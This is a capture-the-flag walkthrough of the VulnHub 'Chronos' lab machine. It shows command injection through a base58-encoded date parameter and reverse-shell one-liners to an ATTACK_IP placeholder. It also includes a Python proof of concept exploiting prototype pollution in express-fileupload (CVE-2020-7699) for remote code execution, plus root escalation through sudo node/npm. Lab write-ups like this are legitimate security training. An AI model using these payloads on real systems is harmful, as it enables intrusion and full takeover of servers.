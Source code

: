 # [Chronos](https://www.vulnhub.com/entry/chronos-1,735/)

First as always, `nmap`

```
# Nmap 7.92 scan initiated Sun Sep 12 14:15:32 2021 as: nmap -vvv -p 22,80,8000 -sCV -oA init 192.168.56.102
Nmap scan report for 192.168.56.102
Host is up, received syn-ack (0.00030s latency).
Scanned at 2021-09-12 14:15:39 +07 for 11s

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e4:f2:83:a4:38:89:8d:86:a5:e1:31:76:eb:9d:5f:ea (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDFF8YjHtqC35Tv6qgLJ0kNRdjbf30IJ3vKLgvfu9i0tKcx3+TpxYz91j2DXQazjyUpfbIV+fQJb5uyl1iaXHcuvLcQ/wx2WzqzYCmvwM0UzChbwlIUxBpCgfx8wRYNJSwGbgPRoHnXLFquLf47q5nugN87esyyMM0UIaMYo3rNspZtB8QsdzZD2m5RqqI45ab8ByrQZbp8PP7XxTUXWT1ulcAABUbWnRR6VJDL72IQy3G8gpDoU95p4feodti3EA97jwbuNq9G+XeLK2BX4Y5SLpqgYazTWw8scw71hPea4r2YvtJNv6aQJBjMTzDfUm1CQ7pc1qN1T+1vujcyzO7J
|   256 41:5a:21:c4:58:f2:2b:e4:8a:2f:31:73:ce:fd:37:ad (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO/PvsX6OqdIiLIzv+JlEolWwqi2s/gnJGADk2W0miSvnZNH2CZ/MAz6qxC4tRLsQl1eI2i43+Wd3tw6pyNvmSg=
|   256 9b:34:28:c2:b9:33:4b:37:d5:01:30:6f:87:c4:6b:23 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGOQB+a1NPS+fokbiT0hLgpNOYdGG/5+ZVsOoCCn0TyO
80/tcp   open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    syn-ack Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-cors: HEAD GET POST PUT DELETE PATCH
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 12 14:15:50 2021 -- 1 IP address (1 host up) scanned in 18.23 seconds
```

Looking at the page on port 80, the source code has some obfuscated javascript. (The code below is just formatted.)

```javascript
var _0x5bdf = [
  "150447srWefj",
  "70lwLrol",
  "1658165LmcNig",
  "open",
  "1260881JUqdKM",
  "10737CrnEEe",
  "2SjTdWC",
  "readyState",
  "responseText",
  "1278676qXleJg",
  "797116soVTES",
  "onreadystatechange",
  "http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL",
  "User-Agent",
  "status",
  "1DYOODT",
  "400909Mbbcfr",
  "Chronos",
  "2QRBPWS",
  "getElementById",
  "innerHTML",
  "date",
];
(function (_0x506b95, _0x817e36) {
  var _0x244260 = _0x432d;
  while (!![]) {
    try {
      var _0x35824b =
        -parseInt(_0x244260(0x7e)) * parseInt(_0x244260(0x90)) +
        parseInt(_0x244260(0x8e)) +
        parseInt(_0x244260(0x7f)) * parseInt(_0x244260(0x83)) +
        -parseInt(_0x244260(0x87)) +
        -parseInt(_0x244260(0x82)) * parseInt(_0x244260(0x8d)) +
        -parseInt(_0x244260(0x88)) +
        parseInt(_0x244260(0x80)) * parseInt(_0x244260(0x84));
      if (_0x35824b === _0x817e36) break;
      else _0x506b95["push"](_0x506b95["shift"]());
    } catch (_0x3fb1dc) {
      _0x506b95["push"](_0x506b95["shift"]());
    }
  }
})(_0x5bdf, 0xcaf1e);
function _0x432d(_0x16bd66, _0x33ffa9) {
  return (
    (_0x432d = function (_0x5bdf82, _0x432dc8) {
      _0x5bdf82 = _0x5bdf82 - 0x7e;
      var _0x4da6e8 = _0x5bdf[_0x5bdf82];
      return _0x4da6e8;
    }),
    _0x432d(_0x16bd66, _0x33ffa9)
  );
}
function loadDoc() {
  var _0x17df92 = _0x432d,
    _0x1cff55 = _0x17df92(0x8f),
    _0x2beb35 = new XMLHttpRequest();
  (_0x2beb35[_0x17df92(0x89)] = function () {
    var _0x146f5d = _0x17df92;
    this[_0x146f5d(0x85)] == 0x4 &&
      this[_0x146f5d(0x8c)] == 0xc8 &&
      (document[_0x146f5d(0x91)](_0x146f5d(0x93))[_0x146f5d(0x92)] =
        this[_0x146f5d(0x86)]);
  }),
    _0x2beb35[_0x17df92(0x81)]("GET", _0x17df92(0x8a), !![]),
    _0x2beb35["setRequestHeader"](_0x17df92(0x8b), _0x1cff55),
    _0x2beb35["send"]();
}
```

We see that it's making some requests to `http://chronos.local:8000/` and we can view the requests in the browser's (I'm using firefox) developer tool, though we should first add `chronos.local` to our `/etc/hosts`. Looking at the developer tool, we have 2 requests, of which the OPTIONS request returns nothing, while the GET request returns a string with the time. Analyzing the GET request, besides the URL, the only special part is the User-Agent which is required to be of the value "Chronos", without which we get "Permission Denied" as the response. In the URL, we have the parameter "format" whose value in the javascript is the string `'+Today is %A, %B %d, %Y %H:%M:%S.'` but base58-encoded. This looks like an argument for the linux command `date`, so we can test for command injection.

I set up a listener and sent the following string, base58-encoded, as "format".

```
'+Today is %A, %B %d, %Y %H:%M:%S.'; curl http://ATTACK_IP:8000
```

This got the server to make a connection to my machine so I went on to deliver a reverse shell in place of `curl`.

```
'+Today is %A, %B %d, %Y %H:%M:%S.'; bash -c 'exec bash -i &>/dev/tcp/ATTACK_IP/1337 <&1'
```

This payload, base58-encoded, should get us a shell on the machine.

Checking listening ports and running node processes, we find another Node server listening on port 8080 ran by "imera".

```sh
www-data@chronos:/opt/chronos$ ss -tlnp
State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port
LISTEN   0         128           127.0.0.53%lo:53               0.0.0.0:*
LISTEN   0         128                 0.0.0.0:22               0.0.0.0:*
LISTEN   0         128               127.0.0.1:8080             0.0.0.0:*
LISTEN   0         128                    [::]:22                  [::]:*
LISTEN   0         128                       *:8000                   *:*        users:(("node",pid=946,fd=18))
LISTEN   0         128                       *:80                     *:*

www-data@chronos:/opt/chronos$ curl 127.0.0.1:8080
<!DOCTYPE html>
<html>
    <head>
        <title>Chronos - Version 2</title>
    </head>
    <body>
        <h1>Coming Soon...</h1>
    </body>

www-data@chronos:/opt/chronos$ ps aux | grep node
imera      783  0.0  2.9 599096 38616 ?        Ssl  08:07   0:00 /usr/local/bin/node /opt/chronos-v2/backend/server.js
www-data   946  0.0  2.9 630848 38716 ?        Ssl  08:07   0:00 /usr/local/bin/node /opt/chronos/app.js
www-data  1444  0.0  0.0  13144  1056 pts/0    S+   08:18   0:00 grep node
```

Looking at the server code in `/opt/chronos-v2/backend/server.js` ...

```javascript
const express = require('express');
const fileupload = require("express-fileupload");
const http = require('http')

const app = express();

app.use(fileupload({ parseNested: true }));

app.set('view engine', 'ejs');
app.set('views', "/opt/chronos-v2/frontend/pages");

app.get('/', (req, res) => {
   res.render('index')
});

const server = http.Server(app);
const addr = "127.0.0.1"
const port = 8080;
server.listen(port, addr, () => {
   console.log('Server listening on ' + addr + ' port ' + port);
});
```

We see the module `express-fileupload` being used, and can view the exact version in `package.json`.

```json
{
  "name": "some-website",
  "version": "1.0.0",
  "description": "",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "^1.1.7-alpha.3"
  }
}
```

Looking around, we find that this version of `express-fileupload` has a Code Injection vulnerability [CVE-2020-7699](https://vuldb.com/?id.159175). The related [github issue](https://github.com/richardgirges/express-fileupload/issues/236) leads to [this blog](https://blog.p6.is/Real-World-JS-1/) on the vulnerability. I then looked around for a PoC and found [this article](https://dev.to/boiledsteak/simple-remote-code-execution-on-ejs-web-applications-with-express-fileupload-3325). I then copied and ran the PoC on the machine to get a reverse shell.

```python
import requests

### commands to run on victim machine
cmd = 'bash -c "bash -i &> /dev/tcp/ATTACK_IP/1337 0>&1"'

print("Starting Attack...")
### pollute
requests.post('http://localhost:8080', files = {'__proto__.outputFunctionName': (
    None, f"x;process.mainModule.require('child_process').exec('{cmd}');x")})

### execute command
requests.get('http://localhost:8080')
print("Finished!")
```

After running the script, we should have a shell as "imera".

Checking our privileges ...

```sh
imera@chronos:/opt/chronos-v2/backend$ sudo -l
sudo -l
Matching Defaults entries for imera on chronos:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User imera may run the following commands on chronos:
    (ALL) NOPASSWD: /usr/local/bin/npm *
    (ALL) NOPASSWD: /usr/local/bin/node *
```

We see that we're able to run `npm` and `node` as root without a password. Following GTFObins, we can get a root shell with either command.

```sh
sudo node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

```sh
sudo npm exec /bin/sh
```

After running either of the above commands, we should have a shell as root.
